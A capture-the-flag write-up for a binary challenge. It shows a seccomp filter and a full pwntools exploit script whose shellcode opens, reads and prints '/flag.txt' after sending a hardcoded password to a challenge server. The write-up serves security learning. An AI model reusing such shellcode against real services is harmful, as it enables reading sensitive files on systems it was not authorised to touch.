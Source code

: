 Initial password, then it reads in our input and calls to it.
It uses seccomp to limit our available syscalls:

```c
v1 = seccomp_init(0LL);
seccomp_rule_add(v1, 0x7FFF0000LL, 257LL, 0LL); // openat()
seccomp_rule_add(v1, 0x7FFF0000LL, 0LL, 0LL);   // read()
seccomp_rule_add(v1, 0x7FFF0000LL, 60LL, 0LL);  // exit()
seccomp_rule_add(v1, 0x7FFF0000LL, 1LL, 0LL);   // write()
seccomp_rule_add(v1, 0x7FFF0000LL, 15LL, 0LL);  // rt_sigreturn()
seccomp_load(v1);
```

---

## Exploit script

Used pwndbg through pwntools to debug the shellcode.
Leaving it in for inevitable future reference.

```python
from pwn import *

context.arch = "amd64"
assembly = """

// openat(AT_FDCWD, "/flag.txt", O_RDONLY, mode)

	xor r10, r10
	xor rdx, rdx
	xor rax, rax
	push rax
	mov rax, 0x7478742e67616c66
	push rax
	mov rsi, rsp
	mov rdi, -100
	mov rax, 0x101
	syscall

// read(flag_fd, rsp, 100)

	mov rdx, 100
	mov rsi, rsp
	mov rdi, rax
	xor rax, rax
	syscall

// write(stdout, rsp, read_count)

	mov rdx, rax
	mov rsi, rsp
	mov rdi, 1
	mov rax, 1
	syscall

// exit(69)

	mov rdi, 69
	mov rax, 60
	syscall

"""

gdbscript = """

set pagination off
set breakpoint pending on

b setup
b king

c
"""

payload = asm(assembly)
password = b"pumpk1ngRulez"

with remote("161.35.162.249", 32390, level="Debug") as r:
#with gdb.debug("/home/kali/Downloads/challenge/pumpking", gdbscript=gdbscript) as r:

	r.sendline(password)
	r.recvuntil(b">>")
	r.send(payload)
	info(r.recvrepeat(1))
	
```